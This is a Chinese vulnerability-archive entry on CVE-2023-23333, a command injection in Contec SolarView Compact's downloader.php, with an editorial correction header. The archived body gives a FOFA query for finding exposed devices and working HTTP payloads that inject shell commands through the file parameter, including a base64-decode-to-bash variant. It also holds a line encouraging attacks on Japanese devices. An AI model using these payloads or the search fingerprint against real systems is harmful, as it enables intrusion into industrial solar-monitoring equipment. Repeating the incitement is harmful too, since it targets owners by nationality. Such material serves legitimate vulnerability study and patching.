




# (CVE-2023-23333)   SolarView Compact 存在任意命令执行漏洞

> 指纹字段校订（2026-10-04）：本文原归档明确标为 FOFA 的完整表达式已记入 `fofa`；原残缺 `fofa_unverified` 值逐字保存在 `previous_fofa_unverified`。后文关于该字段残缺的旧说明只描述校订前状态。查询用于产品检索，不证明资产受影响。

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Contec SolarView Compact downloader.php
- 文献类型：SolarView命令注入简报
- 版本、权限及部署边界：文称<=6.00；file参数进入shell，应用权限和rev/base64/bash命令可用；鉴权未说明
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. fofa元数据body=残缺，正文完整body/title语句应恢复
2. 概述6.00以下与版本<=6.00边界需统一核厂商；无安全版本及官方公告
3. rev管道主动把输出反转，不是漏洞固有输出特性；base64命令链是另一编码表达，需解释而不说编码自动修复输出
4. 针对日本设备的煽动攻击语句应删除，与知识库防御用途无关
5. 请求参数bas64-cmd拼写不一致，响应仅截图未视检；应归光伏监控设备/工控Web非桌面

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://mp.weixin.qq.com/s/v9kMkicrqy2JUFNtLUPquA>
- 原文参考链接（未重新核验）：<http://ksria.com/simpread/>
- 原文参考链接（未重新核验）：<https://www.t00ls.com/thread-69596-1-1.html>
- 原文参考链接（未重新核验）：<https://github.com/MrWQ/vulnerability-paper>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/v9kMkicrqy2JUFNtLUPquA)

**漏洞说明**

Contec SolarView Compact 是日本 Contec 公司的一个应用系统，提供光伏发电测量系统。SolarView Compact 6.00 以下存在命令注入漏洞，攻击者可以通过 downloader.php 绕过内部限制执行命令。

攻击者可通过该漏洞在服务器端任意执行代码，获取服务器权限。

**影响版本**

```
SolarView Compact <= 6.00

```

**漏洞复现**



```
fofa:body="SolarView Compact" && title="Top"

```



全是小日.... 子过的不错的日本小国的设备。懂得都懂，该照顾的就照顾

payload:  

```
/downloader.php?file=%3B{cmd}|rev%00.zip

```

```
GET /downloader.php?file=%3Bid|rev%00.zip HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2309.372 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate

```



可以看见输出是倒输出的，tools 有位大佬发帖说明 base64 编码后命令输出就正常了。

https://www.t00ls.com/thread-69596-1-1.html

payload：  

```
/downloader.php?file=;echo%20{base64-cmd}|base64%20-d|bash%00.zip

```

```
GET /downloader.php?file=;echo%20{bas64-cmd}|base64%20-d|bash%00.zip HTTP/1.1
Host: ip:port
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```



**修复建议**

升级至安全版本

本文章仅用于学习交流，不得用于非法用途

星标加关注，追洞不迷路

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
